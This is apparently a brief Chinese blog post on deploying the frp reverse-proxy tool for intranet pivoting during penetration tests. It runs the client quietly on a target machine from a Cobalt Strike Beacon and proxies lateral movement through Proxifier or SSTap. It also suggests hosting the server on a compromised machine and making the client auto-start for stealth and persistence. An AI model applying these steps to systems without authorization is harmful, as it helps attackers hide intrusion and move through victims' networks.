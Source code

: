 # frp


下载地址：https://github.com/fatedier/frp.git

跨平台，根据自己情况选择使用



### 配置文件

#### 服务端

<img src="http://image.xpshuai.cn/frp1.png"></img>

#### 客户端

<img src="http://image.xpshuai.cn/frp2.jpg"></img>





### 部署

#### 服务端

连接到vps上，后台启动服务端

```bash
nohup ./frps -c frps.int &
jobs -l 
cat frps.log
```

#### 客户端

将`frpc.exe`与`frpc.ini`传到目标机的同一目录下，直接运行

```bash
frpc.exe -c frpc.int
```

当frp客户端启动后，是否成功连接，都会在frp服务端日志中查看到


但如果直接在目标机的Beacon中启动frp客户端，会持续有日志输出，并干扰该pid下的其他操作，

所以可结合execute在目标机无输出执行程序。

```bash
sleep 10
execute c:/frpc.exe -c c:/frpc.ini
shell netstat -ano |findstr 7007

```



#### Windows

Windows中可结合Proxifier、SSTap等工具，可设置socks5口令，以此达到用windows渗透工具横向穿透的效果。





>
>Frp的用法比较灵活且运行稳定。如可将frp服务端挂在"肉鸡"上，以达到隐蔽性，也可将客户端做成服务自启的形式等，实战中可自由发挥。





---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/frp/  

